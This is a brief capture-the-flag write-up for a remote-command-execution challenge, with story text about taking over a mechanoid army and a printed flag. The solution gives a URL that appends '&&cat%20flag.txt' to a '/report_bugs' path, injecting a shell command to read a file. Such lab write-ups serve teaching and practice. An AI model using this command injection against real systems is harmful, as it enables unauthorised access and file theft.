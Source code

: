 # DESCRIPTION
Success! You now hold the reins to the mechanoid army. With the press of a button, you command them to cease their attack. But why stop there? These machines can be more than just neutralized—they can be repurposed. You send new orders, converting them into your allies. The mechanoids turn on their former masters, fighting by your side. The battlefield is yours to command.

# WRITEUP

RCE challenge. Go to `/report_bugs` endpoint. Put a dummy message, followed by `&&cat%20flag.txt` to get flag.

For example: `/report_bugs/hereisabug&&cat%20flag.txt`

>OASIS{M0v1ng_f0rw4rd_0n3_f1l3_4t_a_t1me}
